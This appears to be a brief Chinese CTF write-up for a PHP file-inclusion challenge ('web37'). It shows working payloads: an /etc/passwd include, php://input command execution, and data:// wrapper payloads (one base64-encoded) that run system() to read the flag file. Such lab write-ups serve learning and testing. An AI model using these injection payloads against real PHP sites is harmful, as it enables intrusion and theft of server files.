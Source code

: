 题意：当不匹配flag时进入if，里面包含了$c 并 echo $flag

![web37_timu](./image/web37_timu.png)

随便传入一个`/?c=/etc/passwd`，触发文件包含但是没有flag，仔细看了下源码这里的php里并没有定义$flag，所以直接利用之前的文件包含利用：php://input协议构造命令执行

![web37_input_flag](./image/web37_input_flag.png)

或者data伪协议构造命令执行，读出flag.php`/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==` 由于过滤了flag，所以使用base64构造，或者也可以用 `/?c=data://text/plain,<?php+system("cat+f*.php");?>`
